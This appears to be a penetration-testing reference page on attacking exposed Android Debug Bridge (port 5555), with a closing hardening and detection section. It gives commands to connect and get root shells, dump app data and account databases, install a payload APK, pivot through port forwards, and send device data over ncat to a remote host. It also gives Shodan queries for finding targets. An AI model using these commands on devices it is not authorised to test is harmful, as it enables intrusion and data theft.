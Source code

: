 # 5555 - Android Debug Bridge

## Basic Information

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) is a command-line tool to communicate with Android-based devices and emulators. Typical actions include installing packages, debugging, and getting an interactive Unix shell on the device.

- Historical default TCP port: 5555 (classic "adb tcpip" mode).
- Modern Wireless debugging (Android 11+) uses TLS pairing and mDNS service discovery. The connect port is dynamic and discovered via mDNS; it may not be 5555. Pairing is done with adb pair host:port followed by adb connect. See the notes below for offensive implications.

Example nmap fingerprint:

```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```

## Connect

If you find ADB exposed and reachable, try connecting and enumerating quickly:

```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```

- If the device enforces ADB authentication (ro.adb.secure=1), you’ll need to be pre-authorized (USB RSA auth) or use Android 11+ Wireless debugging pairing (which requires a one-time code displayed on the device).
- Some vendor images, engineering/userdebug builds, emulators, TVs, STBs and development kits expose adbd without auth or with adbd running as root. In those cases, you’ll typically land directly in a shell or root shell.

For a general ADB command reference, see:

[[../mobile-pentesting/android-app-pentesting/adb-commands.md]]

## Quick Post-Exploitation

Once you have shell, validate privileges and SELinux context:

```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```

### Enumerate and capture data

- List third-party apps and paths:
  ```bash
  pm list packages -3
  pm path <pkg>
  ```
- If you have root (adb root or su works), you can access /data directly. If not, prefer run-as for debuggable apps:
  ```bash
  # Without root, for a debuggable app
  run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>
  
  # With root
  cp -a /data/data/<pkg> /sdcard/<pkg>
  exit
  adb pull "/sdcard/<pkg>"
  ```
- Useful system artifacts (root required):
  - /data/system/users/0/accounts.db and related AccountManager data
  - /data/misc/wifi/ (network configs/keys on older versions)
  - App-specific SQLite DBs and shared_prefs under /data/data/<pkg>

You can use this to retrieve sensitive info (e.g., app secrets). For notes about Chrome data considerations, see the issue referenced [here](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- Install and auto-grant runtime permissions:
  ```bash
  adb install -r -g payload.apk         # -g grants all runtime perms declared in manifest
  adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
  ```
- Start activities/services/broadcasts directly:
  ```bash
  adb shell am start -n <pkg>/<activity>
  adb shell am startservice -n <pkg>/<service>
  adb shell am broadcast -a <action>
  ```

### Port forwarding and pivoting

Even without root, adb can forward local ports to device ports and vice versa. This is useful to access services bound locally on the device or to expose attacker services to the device.

- Forward host->device (access a device-local service from your host):
  ```bash
  adb forward tcp:2222 tcp:22       # If device runs SSH (e.g., Termux/Dropbear)
  adb forward tcp:8081 tcp:8080     # Expose app’s local debug server
  ```
- Reverse device->host (let the device reach a service on your host):
  ```bash
  adb reverse tcp:1080 tcp:1080     # Device apps can now reach host:1080 as 127.0.0.1:1080
  ```
- File exfiltration over sockets (no sdcard writes):
  ```bash
  # On host: listen
  ncat -lvp 9000 > dump.tar
  # On device: send directory as tar (root or run-as as applicable)
  adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
  ```

## Wireless Debugging (Android 11+)

Modern Android implements TLS-protected wireless debugging with device-side pairing and mDNS discovery:

```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```

Notes
- Ports are dynamic; don’t assume 5555. mDNS service names look like:
  - _adb-tls-pairing._tcp (pairing)
  - _adb-tls-connect._tcp (paired connect)
  - _adb._tcp (legacy/plain)
- If mDNS is filtered, classic USB-assisted enabling may still work on some builds: `adb tcpip 5555` then `adb connect <ip>:5555` (until reboot).

Offensive implications: if you can interact with the device UI (e.g., physical access or mobile MDM misconfig) to enable Wireless debugging and view the pairing code, you can establish a long-lived paired ADB channel without a cable. Some OEMs expose ADB over TCP in engineering/dev images without pairing—always check.

## Hardening / Detection

Defenders should assume any reachable adbd (TCP) is critical risk.

- Disable ADB and Wireless debugging when not needed. Revoke USB debugging authorizations in Developer options.
- Ensure network policy blocks inbound TCP/5555 and mDNS-based ADB discovery on untrusted segments.
- On devices under your control:
  ```bash
  settings put global adb_enabled 0
  setprop service.adb.tcp.port -1   # disable TCP listening (or use: adb usb)
  stop adbd; start adbd             # restart daemon
  ```
- Monitor for mDNS records `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` on corporate networks and alerts for unexpected 5555 listeners.
- Inventory for insecure builds: `getprop ro.debuggable`, `ro.build.type`, and `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md

